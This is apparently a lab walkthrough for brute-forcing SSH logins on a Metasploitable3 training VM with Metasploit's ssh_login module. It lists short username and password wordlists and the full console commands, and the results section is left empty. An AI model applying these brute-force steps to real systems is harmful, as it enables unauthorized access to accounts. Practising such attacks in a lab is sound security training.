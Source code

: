 # Phase 1: Setup and Compromise the SSH Service

Task 1.1: Use Kali Linux tool Metasploit to compromise the SSH service Using Metasploit

## Objective
Use the `auxiliary/scanner/ssh/ssh_login` module in Metasploit to brute-force SSH credentials on the Metasploitable3 target machine.

---

## 🖥️ Step 1: Setup the Target Environment

- **Attacker Machine:** Kali Linux (on UTM)
- **Victim Machine:** Metasploitable3 Ubuntu 14.04 (on UTM)
- **Target IP Address:** `192.168.100.10`
- **Target SSH Port:** `22` (default)

---

## Step 2: Create Wordlist Files

### users.txt

```text
admin
root
user
vagrant
aisha
test
```
### pass.txt
```text
password
123456
toor
vagrant
aishapass
testpass
```

## Step 3: Load the SSH Login Module

### Launch Metasploit:
```text
sudo msfconsole
```
### Load the SSH login module:
```text
use auxiliary/scanner/ssh/ssh_login
```

## Step 4: Configure the Module

### Set the Target Host, Username & Password Files, and Improve Brute-Force Performance:
```text
set RHOSTS 192.168.100.10
set USER_FILE /home/kali/ssh-brute/users.txt
set PASS_FILE /home/kali/ssh-brute/pass.txt
set BRUTEFORCE_SPEED 5
set THREADS 4
set VERBOSE true
```

## Step 5: Run the Attack
```text
run
```

## Results:














